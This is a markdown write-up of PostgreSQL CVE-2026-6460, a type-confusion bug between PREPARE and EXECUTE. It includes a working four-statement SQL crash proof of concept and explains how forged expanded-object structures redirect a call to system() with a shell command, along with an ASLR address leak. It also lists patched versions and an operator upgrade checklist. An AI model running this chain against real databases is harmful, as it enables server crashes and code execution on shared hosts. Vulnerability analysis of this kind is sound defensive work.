

# PostgreSQL CVE-2026-6460: A 22-Year-Old Type-Confusion Primitive Turned Into RCE

A 22-year-old (circa 2004) type-confusion vulnerability in PostgreSQL **core** — CVE-2026-6460 — lets any low-privileged login role crash the server with ~4 SQL statements and, weaponized, achieve arbitrary code execution as the OS user running PostgreSQL. Fixed structurally in the November 12, 2026 security release (**18.7, 17.12, 16.16, 15.20, 14.25**) via *composite attribute versioning*. The advisory rates it **CVSS v3.1: 8.8** (`AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H` — network-reachable, low-privileged). It was one of **52 CVEs** (plus 140+ bugs) closed in that batch — 32 of them scored 8.8, most being memory errors or type confusion — and **14.25 is the final PostgreSQL 14 release**, putting PG14 fully end-of-life.



## The core insight: a Datum does not know what it is

Every PostgreSQL value travels as an 8-byte **Datum** — a generic carrier with no type tag. Type lives only in the associated OID, resolved through the `pg_type` catalog:

```sql
SET debug_print_parse = on;
SELECT 1337;
-- :consttype 23 (int4), :constbyval true, :constvalue 4 [ 57 5 0 0 0 0 0 0 ]
-- little-endian: 39 05 00 00 -> 0x00000539 -> 1337

SELECT oid, typname, typlen, typbyval FROM pg_type WHERE oid = 23;
-- 23 | int4 | 4 | t          (stored by value)
-- text => typlen = -1, typbyval = f  (Datum carries a POINTER)
```

Two facts make this exploitable:

1. `typlen`/`typbyval` decide whether the 8 bytes are a value or a pointer. If the *reader* uses a different `pg_type` row than the *writer*, bytes meant as data get dereferenced as pointers.
2. Unquoted literals get a real type, `unknown` (OID 705) — type resolution is deferred and mediated by `typinput`/`typoutput` functions (`int4in()`, `textout()`, `byteaout()`, ...).

## The trigger: change a composite's attribute type between PREPARE and EXECUTE

Prepared statements parse fully, then wait. Anything you change in between is *not* reflected in the cached binary representation:

```sql
CREATE TYPE pg_temp.poc AS (key uuid);

PREPARE pc_crash AS SELECT (ROW('01020000000000000000000000000000'))::pg_temp.poc;

ALTER TYPE pg_temp.poc
    ALTER ATTRIBUTE key TYPE bytea CASCADE;

EXECUTE pc_crash;
-- server segfaults on every PostgreSQL version since 2004
-- DETAIL: Failed process was running: EXECUTE pc_crash;
```

`ALTER TYPE` changed the attribute's *definition* but never rewrote the bytes already bound in the prepared statement. On `EXECUTE`, `record_out()` dispatches to **`byteaout()`**, which reinterprets the 16 UUID bytes as a `bytea` value:

```
| external marker | expanded-object tag | ExpandedObjectHeader * pointer |
```

The trailing 8 zero bytes become a **NULL object pointer**. The crash path:

```
EXECUTE pc_crash
  └─ record_out
      └─ byteaout
          └─ EOH_get_flat_size
              └─ NULL->eoh_methods      SIGSEGV
```

```c
// the effectively-crashing line
return eohptr->eoh_methods->get_flat_size(eohptr);
```

## Full RCE: forging the expanded object

`ExpandedObjectMethods` is a table of two **native function pointers** that output functions trust blindly:

```c
typedef struct ExpandedObjectMethods {
    EOH_get_flat_size_type   get_flat_size;
    EOH_flatten_into_type    flatten_into;
} ExpandedObjectMethods;
```

The exploit builds two forged objects entirely from attacker-controlled UUID field bytes:

- **H** = fake `ExpandedObjectHeader`
- **M** = fake `ExpandedObjectMethods` table holding the address of `system()@plt`

```
UUID bytes → point to H → H.eoh_methods (+0x08) → M
                                                  M.get_flat_size = system@plt
```

The elegance: PostgreSQL passes `eohptr` (i.e. **H itself**) as the first argument to the resolved method — so `H` is used twice. Its first 8 bytes (before the `eoh_methods` pointer at `+0x08`) hold a NULL-terminated shell command:

```
H[0..8]  = "id>x\0"          ← argv for system()
H[8..16] = address of M      ← eoh_methods pointer
```

Result: `eohptr->eoh_methods->get_flat_size(eohptr)` becomes `system("id>x")` — in-process code execution as the postgres OS user.

## Defeating ASLR with the same primitive

Managed providers (Neon, Supabase…) harden against `/proc/self/mem` reads, so addresses must be leaked. The same type confusion on **arrays** does it: an array stores its element type *inside its own binary header*, and `unnest()` trusts that internal type. Flip the surrounding SQL contract to `bigint[]` while the internal header claims `text`: `unnest()` returns a pointer-valued text Datum but SQL prints the bits as an integer — **raw memory addresses**.

A minimal array needs 48 bytes of controlled header; three adjacent `uuid` attributes (3 × 16 = 48) give exactly that. Prepare with all attributes as `uuid`, then flip only the first to `bigint[]` — same `ALTER TYPE` race, now leaking the addresses needed to place H and M.

## Why this matters beyond one CVE

- **Privilege floor**: the segfault reproduces as the lowest-privileged login role — in shared/managed PostgreSQL, every tenant is adjacent to a server-side memory-safety bug.
- **Structural fix**: the patch introduces *composite attribute versioning* so stored binary values are invalidated when an attribute type changes (the umbrella CVE-2026-6460 fix; related hardening landed across the November 12, 2026 advisory set, including sibling type-confusion bugs like CVE-2026-18447 — output-parameter type confusion, also CVSS 8.8).
- **AI-assisted research**: the author learned PostgreSQL internals ("Datum, OIDs") by tutoring himself with an LLM agent (`pg_expert`) after exploiting the `pg_clickhouse` extension; the fix credits ~18 reporters including Irregular, OpenAI, Anthropic (Nicholas Carlini) and Microsoft researchers.

## Checklist for operators

1. Upgrade immediately to 18.7 / 17.12 / 16.16 / 15.20 / 14.25 (or later). **PostgreSQL 14 is now EOL** — 14.25 is its final release; plan a migration off 14.
2. Audit tenants: any authenticated role could crash (and with a full chain, execute code in) the shared backend.
3. Treat extensions as a second attack surface — this research line started from `pg_clickhouse` and PostGIS memory corruption at managed providers (Parts 1–2 of the series).
4. Do the post-update chores from the release notes: reindex suspect GIN indexes, `pg_trgm` GiST indexes (`gist_trgm_ops`), and B-tree indexes on unsized `bpchar` columns; take a **new full backup** before further incremental backups (fixed bugs could corrupt them); and update **client binaries** too — `pg_dump` had SQL injection via not-null constraint names and the tar-restore script allowed psql injection.

## References

- [Mehmet Ince — Part 3/6: Turning a 22-Year-Old PostgreSQL Type-Confusion Primitive into RCE](https://mehmetince.net/part-3-6-how-i-ended-up-turning-a-22-year-old-postgresql-type-confusion-primitive-into-rce-cve-2026-6460/)
- [PostgreSQL official advisory for CVE-2026-6460](https://www.postgresql.org/support/security/CVE-2026-6460/)
- [November 12, 2026 release: PostgreSQL 18.7, 17.12, 16.16, 15.20, 14.25, 19 RC 2 (official news)](https://www.postgresql.org/about/news/postgresql-187-1712-1616-1520-1425-and-19-rc-2-released-3442/)
- [CVE-2026-6460 — CVE Record](https://www.cve.org/CVERecord?id=CVE-2026-6460)
- [Help Net Security: PostgreSQL security update fixes 52 vulnerabilities, ends support for PostgreSQL 14](https://www.helpnetsecurity.com/2026/11/13/postgresql-security-update-november-2026/)
- [Community reproduction: 4 SQL statements and a segfault (build 17.11 vs fixed 17.12)](https://dev.to/slabb/4-sql-statements-and-a-segfault-inside-postgresqls-22-year-old-type-confusion-cve-2026-6460-1ggm)
- [Series Part 1: Systemic Risks in the Managed PostgreSQL Industry](https://mehmetince.net/part-1-6-systemic-risks-in-the-managed-postgresql-industry-extension-risks-are-real-exploiting-postgis-memory-corruption-bug-at-neondb-supabase-and-many-more/)
